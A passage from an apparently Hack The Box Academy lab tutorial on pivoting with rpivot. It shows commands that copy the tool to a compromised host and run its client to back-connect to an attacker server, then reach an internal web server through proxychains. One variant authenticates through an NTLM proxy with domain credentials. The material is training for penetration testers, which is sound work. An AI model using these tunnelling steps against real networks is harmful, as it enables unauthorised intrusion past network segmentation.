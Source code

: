 Before running `client.py` we will need to transfer rpivot to the target. We can do this using this SCP command:

#### Transfering rpivot to the Target

```shell
scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/

```

#### Running client.py from Pivot Target

```shell
ubuntu@WEB01:~/rpivot$ python2.7 client.py --server-ip 10.10.14.18 --server-port 9999

Backconnecting to server 10.10.14.18 port 9999

```

#### Confirming Connection is Established

```shell
New connection from host 10.129.202.64, source port 35226

```

We will configure proxychains to pivot over our local server on 127.0.0.1:9050 on our attack host, which was initially started by the Python server.

Finally, we should be able to access the webserver on our server-side, which is hosted on the internal network of 172.16.5.0/23 at 172.16.5.135:80 using proxychains and Firefox.

#### Browsing to the Target Webserver using Proxychains

```shell
proxychains firefox-esr 172.16.5.135:80

```

![](https://academy.hackthebox.com/storage/modules/158/rpivot_proxychain.png)

Similar to the pivot proxy above, there could be scenarios when we cannot directly pivot to an external server (attack host) on the cloud. Some organizations have [HTTP-proxy with NTLM authentication](https://docs.microsoft.com/en-us/openspecs/office_protocols/ms-grvhenc/b9e676e7-e787-4020-9840-7cfe7c76044a) configured with the Domain Controller. In such cases, we can provide an additional NTLM authentication option to rpivot to authenticate via the NTLM proxy by providing a username and password. In these cases, we could use rpivot's client.py in the following way:

#### Connecting to a Web Server using HTTP-Proxy & NTLM Auth

```shell
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>

```
